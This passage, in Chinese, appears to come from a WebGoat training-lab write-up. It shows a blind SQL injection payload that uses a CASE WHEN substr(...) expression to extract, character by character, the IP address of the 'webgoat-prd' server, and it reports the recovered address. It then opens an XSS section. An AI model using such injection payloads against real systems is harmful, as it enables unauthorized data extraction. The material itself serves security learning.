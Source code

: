 string字符串是：`(select ip from servers where hostname='webgoat-prd')
substr的第2个参数是递增整个字符串的，已知后面3段，我们大概要猜3个字符
作为ip地址的第一位大概率是`'1'`
`(CASE+WHEN+(substr((select+ip+from+servers+where+hostname='webgoat-prd'),1,1)='1')+THEN+id+ELSE+hostname+end)`
![](../images/Pasted%20image%2020241111154630.png)

还要搞2位，分别为0~9
第2位是0
![](../images/Pasted%20image%2020241111154752.png)
第3位是4
![](../images/Pasted%20image%2020241111154838.png)

也就是 `104.130.219.202`，成功！

## 3 XSS

本来想放在上一章，dbq我不配，我不会做（）
### 3.1 简单XSS
